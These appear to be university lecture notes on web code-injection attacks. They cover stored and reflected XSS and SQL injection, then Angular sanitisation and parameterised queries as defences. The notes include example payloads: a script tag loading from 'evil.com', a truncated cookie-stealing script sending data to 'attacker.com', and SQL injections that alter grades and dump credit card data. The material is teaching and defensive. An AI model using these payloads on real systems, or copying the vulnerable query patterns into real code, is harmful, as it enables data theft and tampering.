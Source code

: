 # Other Attacks[^1]

# Code Injection Attacks

## Consider adding HTML comments to our Photo App

- Easy change:

Rather than `{model.comment}` do `div.innerHtml = model.comment;`

- What happens if someone inputs a comment with a script tag?

```html
<script src="http://www.evil.com/damage.js" />
```

- Called a Cross Site Scripting Attack (XSS)
- 
Really unfortunate for us. Every user that views that photo/comments gets hurt. (consider following with a CSRF attack)

## Stored Cross Site Scripting Attack

- Attacker stores attacking code in a victim Web server, where it gets accessed by victim clients. Call a **Stored Cross Site Scripting Attack**

- On previous generations of web frameworks was a major attack loophole
  - Lots of stuffing things into innerHTML, bad escape processing

- Less so on JavaScript frameworks
  - Care is taken before stuffing things into the DOM

## Reflected Cross Site Scripting

- Attacker doesn't need to store attack on website, can just reflect it off the website. Call a Reflected Cross Site Scripting Attack

- Consider a website that shows the search term used (like our states view)
  - What happens if we store the search term in an innerHTML and an attacker tricks a user into

searching for: Justin Bieber

```html
<img style="display:none" id="cookieMonster">
<script>
    img = document.getElementById("cookieMonster");
    img.src = "http://attacker.com?cookie=" +
</script>
```

## Reflected Cross Site Scripting Attack

- How to get user to submit that URL?
 
CSRF again:

- Step #1: lure user to attacker site:
  - Sponsored advertisement
  - Spam email
  - Facebook application

- Step #2: attacker HTML automatically loads the link in an invisible iframe 


## Modern JavaScript frameworks have better defences

- Angular bind-html - Sanitizes HTML to remove script, etc. 

```html
<div ng-bind-html="model.comment"></div> <!-- Safe -->
```

- Must explicitly tell Angular if you don't want it sanitized 

```js
model.comment = $sce.trustAsHtml(model.comment)
```

Strict Contextual Escaping (SCE)

- Effectively marks all the places you need to worry about

- ReactJS: No opinion -> half dozen options, search "reactjs sanitize html"

# Code Inject on the Server

## SQL DataBase query models

- Request processing for get students of a specified advisor

```js
var advisorName = routeParam.advisorName;
var students = Student.find_by_sql(
    "SELECT students.* " +
    "FROM students, advisors " +
    "WHERE student.advisor_id = advisor.id " +
    "AND advisor.name = '" + advisorName + "'");
```

- Called with advisorName of 'Jones'

```sql
SELECT students.* FROM students, advisors
    WHERE student.advisor_id = advisor.id
    AND advisor.name = 'Jones'
```

## SQL Injection Attack - Update database

- What happens if the advisorName is: Jones'; 

```sql
UPDATE grades
SET g.grade = 4.0
FROM grades g, students s
WHERE g.student_id = s.id
AND s.name = 'Smith
```

- The following query will be generated:

```sql
SELECT students.* FROM students, advisors
    WHERE student.advisor_id = advisor.id
    AND advisor.name = 'Jones'; UPDATE grades
    SET g.grade = 4.0
    FROM grades g, students s
    WHERE g.student_id = s.id
    AND s.name = 'Smith'
```

## SQL Injection

Injection can also be used to extract sensitive information

- Modify existing query to retrieve different information

- Stolen information appears in "normal" Web output

## Consider a simple pizza company view order history

### Order history query to SQL database

- Order history request processing:

```js
 var month = routeParam.month;
 var orders = Orders.find_by_sql(
      "SELECT pizza, toppings, quantity, date " +
      "FROM orders " +
      "WHERE user_id=" + user_id +
      "AND order_month= '" + month + "'");
```

- Month parameter set to:

```sql
October' AND 1=0
UNION SELECT name as pizza, card_num as toppings,
    exp_mon as quantity, exp_year as date
FROM credit_cards WHERE name != '
```

### **SQL Injection - Dump the database

```sql
SELECT pizza, toppings, quantity, date
   FROM orders
   WHERE user_id=94412
   AND order_month='October' AND 1=0
UNION SELECT name as pizza, card_num as toppings,
   exp_mon as quantity, exp_year as date
   FROM credit_cards WHERE name != ''**
```

| Pizza    | Toppings            | Quantity | Date |
| -------- | ------------------- | -------- | ---- |
| John Doe | 3962 4081 3317 9011 | 11       | 2009 |
| Jane Doe | 7132 0315 9444 6123 | 4        | 2011 |
| ...      | ...                 | ...      | ...  |

## CardSystems hit by SQL injection attack

- CardSystems - Credit card payment processing company 

  SQL injection attack in June 2005 (internal - did in the company)

- The Attack:

  Credit card #s stored unencrypted

  263,000 credit card #s stolen from database

  43 million credit card #s exposeds

## Solutions

- Don't write SQL

```js
Student.findByAdvisorName(routeParam.advisorName);
```

- Use a framework that knows how to safely build sql commands:

```js
Student.find_by_sql("SELECT students.* " +
   "FROM students, advisors " +
   "WHERE student.advisor_id = advisor.id " +
   "AND advisor.name = ?", routeParam.advisorName);
```

# Phishing Attacks

# Denial of Service (DoS) Attacks

[^1]: [Stanford Computer Science](https://cs.stanford.edu)
